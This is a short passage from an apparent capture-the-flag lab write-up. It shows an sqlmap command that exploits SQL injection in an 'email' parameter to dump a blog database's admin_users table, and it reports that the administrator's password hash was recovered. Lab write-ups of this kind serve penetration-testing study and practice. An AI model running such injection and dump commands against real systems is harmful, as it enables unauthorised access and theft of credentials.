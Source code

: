 ![tables ](/assets/img/Usage/usage_03.png)


Next we extract all the data from the admin_user table. After letting this run for a while we could see the administrator user's password hash.

```bash
sqlmap -r req -p email --batch --level 5 --risk 3 -D usage_blog -T admin_users --dump
```

![user extracted](/assets/img/Usage/usage_04.png)
